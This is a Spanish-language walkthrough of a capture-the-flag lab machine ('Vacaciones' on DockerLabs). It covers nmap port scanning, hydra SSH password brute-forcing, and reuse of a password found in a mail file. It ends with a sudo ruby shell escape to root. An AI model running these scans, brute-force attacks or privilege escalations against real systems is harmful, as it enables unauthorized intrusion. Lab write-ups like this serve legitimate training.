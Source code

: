 ![image](https://github.com/user-attachments/assets/942a080f-db21-4e2e-86bf-b463471fefa3)

```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![Pasted image 20250123104046](https://github.com/user-attachments/assets/b3f900ee-3938-45f7-b054-391c4467bbc8)

tenemos una web y vamos a investigar

![[Pasted image 20250123104131.png]]
la web no tiene nada pero si miramos el codigo fuente podemos encontrar inmformacion
![[Pasted image 20250123104207.png]]

ya tenemos dos posibles usuarios **juan** y **camilo** ahora aplicaremos fuzing para ver si encontramos directorios ocultos con mas informacion

![[Pasted image 20250123104438.png]]
pero no tenemos acceso
![[Pasted image 20250123104454.png]]

------------

bueno no hemos podido encontrar mas informacion que dos usuarios asi que haremos un ataque de fuerza bruta para esto crearemos un archivo el cual contenga los dos posibles usuarios encontrados y usaremos un diccionario para encontrar posibles contrasenas

```bash
nano users.txt
```

![[Pasted image 20250123104723.png]]

ahora haremos el ataque de fuerza bruta

```bash
hydra -L /home/loestbazan/DockerLabs/MaquinasFaciles/Vacaciones/content/users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```

![[Pasted image 20250123111820.png]]

despues de obtener la contrasena **password1** ingresaremos via ssh

```bash
ssh camilo@172.17.0.2
```

![[Pasted image 20250123110531.png]]

despues de uns breve investigacion en los directorios encontramos un password para juan ya que si recorgamos en el codigo fuente vimos que le habia dejado un correo a camilo 

```bash
cd /var/mail/camilo/correo.txt
```

![[Pasted image 20250123110725.png]]

ahora nos conectaremos

```bash
ssh juan@172.17.0.2
```

![[Pasted image 20250123110851.png]]

```bash
sudo -l
```

![[Pasted image 20250123110931.png]]
en nuestra pag de GTFObins buscamos una fomra de elevar privilegios

![[Pasted image 20250123111046.png]]

![[Pasted image 20250123111109.png]]

```bash
sudo ruby -e 'exec "/bin/sh"'
```

![[Pasted image 20250123111216.png]]
